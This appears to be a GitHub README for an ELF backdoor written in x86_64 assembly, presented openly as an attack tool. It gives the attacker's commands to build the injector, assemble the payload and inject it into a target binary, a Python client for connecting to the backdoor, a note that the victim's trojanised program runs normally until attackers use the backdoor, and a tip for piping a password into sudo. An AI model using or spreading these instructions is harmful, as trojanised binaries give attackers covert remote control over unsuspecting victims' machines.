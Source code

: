 # elf_backdoor

It is elf backdoor written in pure assembly language that works in **x86_64**

# Usage
## Attacker
### backdoor
```bash
$ gcc elfinject.c -o elfinject -lelf
$ nasm -f bin backdoor.s -o backdoor.bin
$ ./elfinject elftarget backdoor.bin ".injected" 0x800000 0
```
### backdoor_client
```
$ python3 tcpClient.py
```
## victim
If the victim downloads or acquires the file in any manner.
```
$ ./elftarget
```
The victim successfully uses the original program without any issues, but later, attackers exploit backdoors.

# Demo
## backdoor
![backdoor](https://github.com/gbdngb12/Simple-elf-backdoor/assets/104804087/84720f5f-7caf-45aa-b28a-00632b779317)

## backdoor_client
![client](https://github.com/gbdngb12/Simple-elf-backdoor/assets/104804087/29cf4cf6-bf88-456f-8cc2-052c8ae33f0c)

# Tips
## How to use sudo
```bash
$ python3 tcpClient
echo "password" | sudo -S <command>
```

